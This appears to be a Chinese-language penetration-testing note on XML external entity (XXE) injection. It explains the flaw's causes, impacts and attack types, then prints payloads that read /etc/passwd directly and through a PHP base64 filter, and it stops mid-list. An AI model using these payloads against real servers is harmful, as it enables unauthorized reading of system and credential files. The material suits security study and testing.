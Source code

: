 # XXE

## 介绍

XXE 简单来说就是 XML 外部实体注入，主要利用 XML 解析功能漏洞，在解析 XML 输入时，没有禁止对外部实体的加载，导致可以加载恶意的外部文件，攻击者通过构造恶意内容，就可能导致任意文件读取、系统命令执行、DDOS 攻击、使用 XXE 执行 SSRF 漏洞进而进行内网端口检测以及攻击内网网站等等。

## 位置

* 只要是传递参数就可以，我们可以将上传的格式修改为 XML 检测服务器是否会响应

## 影响

* 文件读取
* 命令执行
* DDOS 攻击
* SSRF： 内网端口检测、攻击内网网站

## 原因

* 没有禁止对外部实体的加载
* XML 解析器!ENTITY 标签被近似处理，并且是我们利用的关键

## XXE 攻击

> XXE  攻击分为两种类型：&#x20;
>
> * 攻击者可以立即收到 XXE 负载的响应
> * Bind XEE : 攻击者必须将 XXE 的负载输出到其他文件或自己的服务器

### 读文件

> * Linux 读取 /etc/hosts
> * Windows 读取 C:\windows\system32\drivers\etc\hosts

1.  第一个案例：

    ```xml
    <!--?xml version="1.0" ?-->
    <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
    <data>&example;</data>
    ```
2.  如果网站使用 PHP 环境搭建，我们可以使用下面方法读取

    ```xml
    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
    <data>&example;</data>
    ```
3.  设置 `Element stockCheck` as ANY
